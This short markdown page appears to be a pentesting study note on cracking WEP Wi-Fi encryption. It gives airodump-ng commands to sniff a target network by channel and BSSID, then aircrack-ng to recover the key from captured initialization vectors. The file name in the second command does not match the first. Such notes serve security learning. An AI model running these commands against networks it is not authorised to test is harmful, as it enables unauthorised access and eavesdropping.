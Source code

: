 # WEP cracking

**Passive Attack which attacker Sniff packet on target network and save it in file call `wep-test`**

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1).png>)

```bash
airodump-ng wlan0 --channel 5 --bssid D8:29:18:0A:08:91 --write wep-test
```

***

### Use Aircrack-ng tool

which crack WEP by initialization vector

```bash
aircrack-ng web-test-*
```

need more than 5000 IVs `each action is IVs`

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
